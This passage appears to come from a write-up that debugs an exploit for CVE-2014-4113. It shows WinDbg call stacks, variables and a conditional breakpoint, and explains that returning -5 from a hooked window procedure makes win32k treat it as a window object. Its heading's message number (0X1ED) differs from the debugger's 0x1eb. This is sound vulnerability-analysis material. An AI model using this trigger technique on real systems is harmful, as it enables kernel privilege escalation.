 
---
# **Immediately our WndProc is hit with 0X1ED**
---

<br>

```
1: kd> kn
 # ChildEBP RetAddr
00 0076f874 7784c4e7 CVE_2014_4113!SubClassNewWndProc+0x55
01 0076f8a0 7784c5e7 USER32!InternalCallWinProc+0x23
02 0076f918 77844f0e USER32!UserCallWinProcCheckWow+0x14b
03 0076f974 7787f0a3 USER32!DispatchClientMessage+0xda
04 0076f99c 77d56fee USER32!__fnOUTDWORDINDWORD+0x2a
05 0076f99c 82acf588 ntdll!KiUserCallbackDispatcher+0x2e
06 00000000 00000000 nt!KiCallUserMode+0x4

1: kd> dv /v /t
0076f87c          struct HWND__ * hWnd = 0x000601ae <-- Same Menu window (server side)
0076f880          unsigned int message = 0x1eb <-- MN_FINDMENUWINDOWFROMPOINT (Vuln)
0076f884          unsigned int wParam = 0x76f9a4
0076f888          long lParam = 0
0076f86c          long lResult = 0

```

<br>

---
# **Let's put breakpoint on few important functions**
---
<br>

```
0: kd> ba e1 win32k!xxxSendMessageTimeout+0xad ".if (@esi==0xfffffffb) {} .else {g;}"
0: kd> bl
     0 e Disable Clear  9263959e e 1 0001 (0001) win32k!xxxMNFindWindowFromPoint
     1 e Disable Clear  925b93f4 e 1 0001 (0001) win32k!xxxSendMessageTimeout+0xad ".if (@esi==0xfffffffb) {} .else {g;}"
```


<br>

---
# **Trigger vulnerability by ending the menu and returning -5**
---
Where the vulnerability lies and we end up interpreting this returned value as
a valid window handle(tagWND).
